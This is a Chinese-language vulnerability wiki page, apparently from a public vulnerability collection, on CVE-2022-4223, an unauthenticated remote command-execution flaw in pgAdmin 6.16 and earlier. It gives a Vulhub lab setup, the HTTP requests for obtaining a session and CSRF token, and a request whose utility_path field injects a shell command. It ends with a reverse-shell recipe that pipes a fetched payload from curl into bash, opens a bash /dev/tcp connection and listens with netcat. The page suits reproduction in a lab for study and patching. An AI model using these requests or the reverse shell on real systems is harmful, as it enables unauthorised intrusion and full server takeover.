




# pgAdmin ≤ 6.16 无授权远程命令执行漏洞 CVE-2022-4223

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：<=6.16，获取匿名session及CSRF token；示例Linux环境
- 证据范围：请求/响应及token取得步骤较完整，官方commit和GHSA可定位；不同于95的平台分析

### 本次正文校订

- 按实际内容修正 3 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- compose环境目录链接缺失
- can't start new thread一概要求升级Docker缺诊断依据，可能有其他资源/配置原因
- HTTP Content-Length 固定值应重算，示例命令执行持久副作用应标注

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

pgAdmin 是一个著名的 PostgreSQL 数据库管理平台。

pgAdmin 包含一个 HTTP API 可以用来让用户选择并验证额外的 PostgreSQL 套件，比如 pg_dump 和 pg_restore。但在其 6.16 版本及以前，对于用户传入的路径没有做合适的验证，导致未授权的用户可以在目标服务器上执行任意命令。

参考链接：

- https://github.com/pgadmin-org/pgadmin4/commit/799b6d8f7c10e920c9e67c2c18d381d6320ca604
- https://github.com/pgadmin-org/pgadmin4/commit/461849c2763e680ed2296bb8a753ca7aef546595
- https://github.com/advisories/GHSA-3v6v-2x6p-32mc

## 漏洞影响

```
pgAdmin 版本 <= 6.16
```

## 网络测绘

```
"pgadmin" && icon_hash="1502815117"
```

## 环境搭建

Vulhub 执行如下命令启动一个 pgAdmin 6.16 服务器：

```shell
docker compose up -d
```

服务器启动后，访问`http://your-ip:5050`即可查看到 pgAdmin 默认的登录页面。




若环境启动时报错 `RuntimeError: can't start new thread`，则需要升级 docker 和 docker-compose：

```shell
# 参考版本
Docker version 26.0.0, build 2ae903e
Docker Compose version v2.26.1
```

## 漏洞复现

在复现漏洞前，需要发送如下数据包获取 csrf token：

```http
GET /login HTTP/1.1
Host: your-ip:5050
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7
Connection: close
```

在返回包中拿到一个新的 session id 和 csrf token：

```
HTTP/1.1 200 OK
Server: Werkzeug/2.1.2 Python/3.10.14
Date: Sun, 07 Apr 2024 03:52:54 GMT
Content-Type: application/json
Content-Length: 142
Vary: Accept-Encoding
X-Frame-Options: SAMEORIGIN
Content-Security-Policy: default-src ws: http: data: blob: 'unsafe-inline' 'unsafe-eval';
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Server: Python
Set-Cookie: pga4_session=990e222d-ec6b-4a34-883f-b5e1634c7b8b!B6rx2SOWPi/Cixy+HdVIe0z/Ez6tkKgx3O2SpMYcePE=; Expires=Mon, 08 Apr 2024 03:52:54 GMT; HttpOnly; Path=/; SameSite=Lax
Connection: close

{"meta":{"code":200},"response":{"csrf_token":"ImJlNjk0NTdjOTg0YTIzOTYzMzUyMzk5NzRkYWIyOGQ5NTk2Yjc1NGQi.ZhIYlg.4ZuZvRDiGHuXQdJN3HCnvBzgamo"}}
```




然后，将获取到的 session id 和 csrf token 填写进下面的数据包并发送（如果这一步的响应包状态码不是 `200 OK`，而是 `302 Found`，则跟进重定向，直到返回 `200 OK`。然后返回上一步，再次发送 `GET /login` 请求包）：

```http
POST /misc/validate_binary_path HTTP/1.1
Host: your-ip:5050
Content-Length: 27
X-pgA-CSRFToken: [csrf-token]
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Content-Type: application/json
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7
Cookie: pga4_session=[session-id]
Connection: close

{"utility_path":"a\";id;#"}
```

可见，`id`命令已经被成功执行：




反弹 shell：

```shell
# attacker
# step 1
cat bash.html
-----
/bin/bash -i >& /dev/tcp/<your-ip>/8888 0>&1
# step 2
python3 -m http.server 9999
# step3
nc -lvnp 8888

# victim
curl http://<your-ip>:9999/bash.html|bash
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
